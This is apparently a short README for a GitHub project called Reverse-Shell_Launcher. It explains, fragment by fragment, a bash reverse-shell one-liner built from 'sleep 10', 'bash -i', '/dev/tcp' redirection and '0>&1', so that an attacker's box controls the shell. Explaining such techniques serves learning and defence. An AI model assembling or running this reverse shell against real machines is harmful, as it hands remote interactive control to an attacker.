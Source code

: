 # Reverse-Shell_Launcher

<h3>Breakdown</h3>

though a very short 1 liner, I still will break this down as best as I can

The use of `sleep 10` is used to for waiting until networking service is available before doing anything. 

Bash is able to write to a TCP socket in some linux environments, so `bash -i` is used to start an interactive bash session 

From here, I am redirecting standard out and standard error to the TCP socket with: `>& /dev/tcp` 

Finally I will direct Standard Input to the TCP socket. This makes sure that the attacker input comes from the attacker box, going through the TCP connection established. The file descriptor for stdin is `0` and it's redirected to the same location as stdout and stderr with `0>&1`
